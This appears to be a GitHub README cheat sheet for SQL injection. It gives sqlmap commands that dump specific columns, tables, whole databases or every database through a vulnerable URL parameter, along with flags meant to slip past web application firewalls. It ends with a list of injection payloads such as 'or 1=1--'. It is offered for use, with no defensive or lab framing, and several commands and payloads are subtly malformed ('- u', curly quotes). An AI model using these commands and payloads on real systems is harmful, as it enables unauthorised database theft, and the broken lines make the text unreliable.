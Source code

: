 						
<h2>SQLmap Usage</h2>

 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 ```
 sqlmap - u "url?prm=" -p prm --dbs  --dump
``` 
 *or use --dump-all instead of --dump to fetch all databases's all tables and columns*


<h4>Extra Parameter to Optimise SQLmap's Performance</h4>

 * **Parameters**      `--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o `
 
* **Optimised Url**

```
sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o
```

<h2> SQL Injection Confirmation<h2>
 
 ```
 or 1=1 

‘or 1=1

“or 1=1

or 1=1–

‘or 1=1–

“or 1=1–

or 1=1#

‘or 1=1#

“or

1=1#

or 1=1/*

‘or 1=1/*

“or 1=1/*

or 1=1;%00

‘or 1=1;%00

“or 1=1;%00

‘or’

‘or

‘or’–

‘or–

or a=a

‘or a=a

“or a=a

or a=a–

‘or a=a —

“or a=a–

or ‘a’=’a’

‘or ‘a’=’a’

“or ‘a’=’a’

‘)or(‘a’=’a’

“)”a”=”a”

‘)’a’=’a

‘or”=’
```
